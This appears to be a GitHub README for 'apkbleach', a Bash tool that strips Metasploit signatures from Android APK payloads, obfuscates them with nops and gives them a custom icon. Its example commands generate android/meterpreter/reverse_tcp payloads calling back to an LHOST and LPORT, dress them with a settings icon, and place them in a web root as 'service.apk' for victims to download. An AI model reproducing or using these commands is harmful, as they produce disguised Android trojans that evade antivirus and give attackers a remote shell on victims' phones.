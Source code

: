 # apkbleach
This BASH script will remove the obvious fingerprints of metasploit through out a given apk file. It also gives the option to inject a custom app icon

After you cd into the repo directory run the install script or manually move apkbleach to /usr/local/bin
   $ bash install.sh
   
Usage: 

         Usage: apkbleach -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use> -i <path/to/image.png> -o  <path/to/outputname.apk>

Options: 

      -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use>
          Generates obfuscated payload with nops
  
      -i <path/to/image.png> [ use -i --list ] to list defaults
          Sets image as the icon of the file.apk
  
      -o  <path/to/outputname.apk>
          Sets the name of custom output file
  
      -x <path/to/apk>
          Uses pre generated metasploit payload to obfuscate
  
      -h  Help menu

Examples: 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444

         ./apkbleach -x /root/msf.apk

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png -o /var/www/html/service.apk

